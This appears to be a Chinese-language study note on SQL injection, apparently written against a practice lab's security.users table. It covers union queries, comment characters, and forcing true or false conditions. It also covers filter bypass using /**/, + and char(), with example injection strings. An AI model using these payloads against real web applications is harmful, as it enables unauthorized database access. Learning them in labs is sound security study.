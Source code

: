 - post类的布尔盲注与时间盲注
    - post类的布尔盲注只是把and换成or其他不变，时间盲注有些不同因为在post类里sleep函数会被放大很多也就是说那个延时时间会很长，不过并不影响我们进行测试。


# 单项释义

## 一，联合查询
- 联合查询是拼接在原查询语句下，要求结果数量与原结果数量相同。
    - select * from security.users where id=1 `union` select 1,2,3;
        >1,2,3并无特殊含义，换成其他数字或字符串也可以，这里只是站位表示一下。
- 使用union拼接两个select语句。

## 二，注释语句
- sql注入时要注释掉后面的部分才能使整个语句正确运行，这里记录几种方法。

    ### 1，`#`注释符
    - select * from security.users where id=1 union select 1,2,database ()`#` limit 0,30;
        >此时后面的limit 0,30并没有生效。

    ### 2，`--`空格注释符 
    - select * from security.users where id=1 union select 1,2,database () `--` ' limit 0,30;
        >注意在--后面有个空格，否则会报错，不过书写时可能疏忽，因此空格后一般写一个随机字符串。

    ### 3, `;/*` 注释符
    - select * from security.users where id=1 union select 1,2,database() `;/*` ' limit 0,1;
        >这个注释一定要注意 /前面有个；否则会报错

## 三，where条件语句使用
-  select * from security.users where id=1 && 1=2 union select 1,2,database() -- hack; limit 0,30;
    >where语句起到过滤作用，筛选出符合结果的查询内容。where后的条件同样符合true和false的运算。

    >可以利用加上 and 1=2 (或者其他为false的语句)使原条件失效，也可以利用 or 1=1使原条件一定成立。

    >and和or可以替换成 && 和 ||

    >当然在查询的id处输入一个不可能存在的值也可以使结果为空，比如前面输入的-1

## 四，空格替换
- select * from security.users where id=1.union`/**/`select`+`1,2,database() limit 0,30;

    >这里主要是为了绕过对空格的过滤

    >可以使用`/**/`代替空格，这个一定可以使用（如果没有被过滤）。`+`和 .     在某些情况下也可以代替空格

    >这里分别用`/**/` `+`  .  代替了空格。

## 五，CHAR函数
- select * from security.users where username='Dumb' union select 1,2,`char(65)`#; limit 0,30;

    >`char()`可以将ascii码转换为字符，也是为了绕过过滤。 
